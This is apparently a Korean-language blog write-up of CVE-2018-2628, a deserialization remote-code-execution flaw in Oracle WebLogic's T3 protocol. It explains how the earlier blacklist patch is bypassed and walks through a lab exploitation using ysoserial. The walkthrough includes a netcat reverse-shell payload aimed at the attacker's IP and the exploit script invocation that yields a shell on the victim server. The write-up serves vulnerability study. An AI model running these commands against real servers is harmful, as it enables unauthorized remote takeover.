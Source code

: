 ```yaml
---
layout: article
title: "[CVE]CVE-2018-2628(WebLogic Server,RCE)"
key: 20180913
tags:
  - CVE
toc: true
mathjax: true
mathjax_autoNumber: true
published : true
---
```


# [+] CVE-2018-2628(WebLogic Server)

<!--more-->

## [+] Summary

- Target : Oracle Weblogic Server
- CVE : [CVE-2018-2628](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-2628)
- Version : 10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3
- Vulnerability : 원격 명령 실행 (Remote Code Execution)
- Platform : 모든 플랫폼

## [+] Analysis

해당 취약점은 신뢰할 수 없는 데이터를 **역직렬화(Deserialize)**를 하며 발생하는 취약점으로 **RMI(Remote Method Invocation)** 통신 시 사용되는 **T3 Protocol**을 이용하며, 세션을 맺은 후 악의적인 페이로드를 전송하여 역직렬화된 임의의 코드가 실행되는 취약점이다.

[^역직렬화]: 직렬화를 통해 byte로 변환된 데이터를 원래의 객체나 데이터로 변환 
[^RMI Communication]: 원격 함수 호출로써 최종적인 목표는 RPC와 같으며 다른 네트워크의 객체 내 메소드 호출하는 것을 의미
[^T3 Protocol]: WebLogic Server와 다른 유형의 자바 프로그램 간의 정보를 전송하는데 사용

<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-3248">CVE-2017-3248</a>(p24667634_1036_Generic) 으로 인한 패치 내용을 보면 '*resolveProxyClass*' 내에서 RMI 인터페이스의 '*java.rmi.registry.Registry*' 유형만 필터링하여 해당 취약점을 보완한 것을 확인할 수 있다.

```java
protected Class<?> resolveProxyClass(String[] interfaces) throws IOException, ClassNotFoundException {
   String[] arr$ = interfaces;
   int len$ = interfaces.length;
   for(int i$ = 0; i$ < len$; ++i$) {
      String intf = arr$[i$];
      if(intf.equals("java.rmi.registry.Registry")) { // 취약한 RMI 인터페이스
         throw new InvalidObjectException("Unauthorized proxy deserialization");
      }
   }
   return super.resolveProxyClass(interfaces);
}
```

그러나 블랙리스트 방식의 필터링을 사용하여 간단히 해당 인터페이스를 변경하여 우회가 가능하다.

해당 익스플로잇에 사용되는 도구는 **ysoserial**이란 도구로 Java의 직렬화, 역직렬화에서 발생하는 취약점을 이용해 RCE가 가능하게 하는 PoC 도구이며, 직렬화, 역직렬화 과정에서 '*Commons-Collections*' 라이브러리의 '*InvokerTransformer*' 를 악용하여 결과적으로 '*RuntimeExec*' 메소드를 호출하도록 만드는 도구이다. 위의 패치를 우회하기 위해 '*Registry*'가 아닌 '*Activator*'를 이용한다.

| Attacker     | Victim                           |
| ------------ | -------------------------------- |
| 192.168.1.86 | 192.168.1.13                     |
| Ubuntu linux | Windows (Weblogic Server 10.3.6) |

![1](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/1.png?raw=true "1"){:.border}

아래는 실행 중인 WebLogic Server의 'config.xml' 내용이다. 10.3.6 버전으로 취약한 버전에 해당된다.

```xml
<!--config.xml-->

<name>base_domain</name>
<domain-version>10.3.6.0</domain-version> <!--취약한 버전-->

+<security-configuration>
-<server>
	<name>AdminServer</name>
	-<server-debug>
		-<debug-scope>
			<name>weblogic.t3</name>
			<enabled>true</enabled>
		</debug-scope>
		-<debug-scope>
			<name>weblogic.t3.srvr</name>
			<enabled>true</enabled>
		</debug-scope>
		<debug-server-life-cycle>true</debug-server-life-cycle>
		<debug-server-start-statistics>true</debug-server-start-statistics>
	</server-debug>
	<listen-address/>
</server>
-<embedded-ldap>
	<name>base_domain</name>
	<credential-encrypted>{AES}eXPolKQ3q15ldCBGrLJhxLmy0Zvw/fUqvCSka6SrHVXGtdQkTKfzY6v2R3KNHOrX</credential-encrypted>
	</embedded-ldap>

<configuration-version>10.3.6.0</configuration-version>
<admin-server-name>AdminServer</admin-server-name>
```

아래의 명령어를 이용하여 페이로드에 포함 할 실행 명령어(*netcat*)와 RMI 통신 포트인 **1099**를 열고 대기한다.

```
[Command]
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'nc -e cmd.exe 192.168.1.86 4444'
```

![2](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/2.png?raw=true "2"){:.border}

그 후 익스플로잇 코드를 이용하여 아래의 명령어를 실행 시 페이로드가 전달되며 세션이 맺어지고 역직렬화를 통해 해당 명령어가 실행되어 Weblogic Server의 쉘을 획득하는 것을 볼 수 있다.

```
[Command]
python exploit.py <target_ip> <port> ysoserial <attacker_ip> <JRMPListner_port> JRMPClient2

ex)
python exploit.py 192.168.1.13 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.1.86 1099 JRMPClient2
```

![3](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/3.png?raw=true "3"){:.border}

아래 패킷은 T3를 통해 7001 포트와 세션을 맺는 과정의 페이로드이다. 확인해보면 위에서 전달한 '*JRMPClient2(java.rmi.activation.Activator)*'를 이용하여 필터링을 우회하는 것을 볼 수 있다.

![4](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/4.png?raw=true "4"){:.border}

페이로드가 정상적으로 전달되어 세션을 맺고 RMI Port(1099)를 대기 중이던 공격자에게 서버가 **RMI Connection 요청**을 전달하는 것을 확인할 수 있다.

![5](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/5.png?raw=true "5"){:.border}

그리고 **RMI Communication**을 통해 공격자가 준비한 페이로드를 전달함으로써 서버에서 해당 명령어가 실행되며 공격자가 쉘을 획득하게 된다.

![6](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/6.png?raw=true "6"){:.border}

